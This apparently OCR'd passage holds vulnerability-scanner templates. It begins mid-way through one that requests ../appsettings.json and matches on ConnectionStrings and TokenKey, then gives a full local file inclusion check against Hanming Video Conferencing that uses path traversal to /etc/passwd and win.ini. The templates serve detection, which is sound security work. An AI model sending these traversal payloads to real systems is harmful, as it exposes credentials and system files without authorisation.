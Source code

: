 ## Requests

- Method - GET

### URL

- {{BaseURL}}/api/image/cover-upload?filename=../appsettings.json

### Matchers

**Type - word**

- part - body
- words
  1. "ConnectionStrings":
  2. "Path":
  3. "TokenKey":
- condition - and

**Type - status**

- status
  1. 200

---

# Hanming Video Conferencing - Local File Inclusion

## Description

- Hanming Video Conferencing is vulnerable to local file inclusion.
- severity - high
- tags - lfr,hanming,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini
- {{BaseURL}}/register/toDownload.do?fileName=../../../../../../../../../../../../../../etc/passwd

### Matchers

**Type - word**

- part - body
- words
  1. bit app support
  2. fonts
  3. extensions
- condition - and
